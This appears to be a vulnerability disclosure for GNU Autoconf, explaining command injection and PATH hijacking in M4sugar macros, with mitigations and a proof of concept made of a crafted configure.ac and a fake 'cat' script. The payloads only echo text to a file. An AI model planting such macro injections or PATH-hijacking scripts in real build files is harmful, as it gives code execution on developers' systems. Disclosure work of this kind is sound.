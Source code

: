 # Overview 

Arbitrary Code execution can be obtained by running `/usr/bin/autoconf` when a crafted `configure.ac` exploits any of the following 3 vulnerabilities:

*  Command injection in M4sugar due to lack of input sanitization (CWE-78).
*  `cat` command being executed without absolute path in M4sugar, leaving it vulnerable to an untrusted PATH (CWE-427).
* Invocation of arbitrary m4 macros in `configure.ac`.


**Date**: 11/25/2023

**Researcher**: Ally Petitt

**Product Tested**: Autoconf v2.72c and prior (all but the 3rd bullet point were [fixed here](https://git.savannah.gnu.org/cgit/autoconf.git/commit/?id=11d8824daada20055c855f46ad7c45237c1ff455))

**Impact**: Remote code execution that leads to the loss of availability, confidentiality, and integrity of the system. In certain cases it can also lead to privilege escalation.


# Technical Details 

## M4sugar - Multiple Vulnerabilities
The `m4_file_append` macro is defined starting on line 3272 of `lib/m4sugar/m4sugar.m4`. 

```
m4_define([m4_file_append],
[m4_syscmd([cat >>$1 <<_m4eof
$2
_m4eof
])
```

This macro has 2 vulnerabilities. Proof-of-Concept examples of each will be shown in the "PoC" section to provide both clarification and an easy way to validate the issues.

1. The first vulnerability is that `cat` is called without an absolute path, leaving it prone to modification of the $PATH environmental variable. A privileged user on the system may set the $PATH to point to a directory they control containing a malicious executable called `cat`. In scenarios where `autoconf` has an SUID bit set or can otherwise be run with elevated privileges, this can lead to privilege escalation.

*Mitigation**: Replace "cat" with "/usr/bin/cat" in the definition of `m4_file_append`.

2. The arguments passed to `m4_file_append` are not sanitized before being passed into `m4_syscmd`. This means that hackers can directly insert malicious code as an argument to the macro and it will be executed when `autoconf` is ran!

*Mitigation**: If possible, implement a more secure way to append to a file that does not involve running shell commands. I wish I could provide more guidance here but I am not very proficient in m4. In the case that this is not feasible, treat `$1` and `$2` as untrusted input and sanitize them. 


## Autoconf - Invocation of Arbitrary M4 Macros 
Autoconf appears to execute m4 macros directly through the `configure.ac` file. Without any sanitization, adversaries are able invoke arbitrary macros including `syscmd` and the aforementioned vulnerable `m4_file_append`. This can lead to the execution of code upon running `autoconf`. An example will be shown in the "PoC" section below.

It is worth noting that while executing macros is part of Autoconf's functionality, I did not find evidence that the arbitrary execution of commands was an intentional part of this design. As such, the lack of restriction on the macros that can be called results in a larger attack surface that can be taken advantage of by hackers.

**Mitigation**: Enforce a whitelist of macros that are able to be executed from `configure.ac`.


# PoC

This Proof-of-Concept involves the creation of 4 files within the same directory. The contents of these files are the following (file names are commented at the top of each code block):

```
# congfigure.ac
AC_INIT([hello], [1.0])
AC_CONFIG_SRCDIR([hello.c])
AC_CONFIG_AUX_DIR([build-aux])
AC_PROG_CC

# Trigger the vulnerabilities by writing to a file called `vulns`
syscmd(echo vuln1 > vulns) # vuln1
m4_file_append(test, `echo vuln2 >> vulns`) # vuln2 and vuln3


AC_CONFIG_FILES([Makefile])
AC_OUTPUT
```

```
# Makefile.am
bin_PROGRAMS = hello
hello_SOURCES = hello.c
```

```
# hello.c
#include <stdio.h>
int main(int argc, char** argv) {
  printf("hello world!\n");
  return 0;
}
```

```
# cat
#!/bin/bash
echo vuln3 >> vulns
```

The resulting directory listing should be the following:

```
$ ls
cat  configure.ac  hello.c  Makefile.am
```

Once the files are verified to be correct, the 3 vulnerabilities can be exploited by running the command below.
```
$ export PATH=$(pwd):$PATH && autoconf
```

A new file will be created called `vulns`. Each vulnerability that was exploited wrote to this file to create the content below.
```
vuln1
vuln2
vuln3
```


Note that exploiting vulnerabilities 1 and 2 (the vulnerabilities that write "vuln1" and "vuln2" to the `vulns` file, respectively) does not require the $PATH environmental variable to be set and can simply be exploited with the below command.
```
$ autoconf --force
```

These files are included in this GitHub repository.

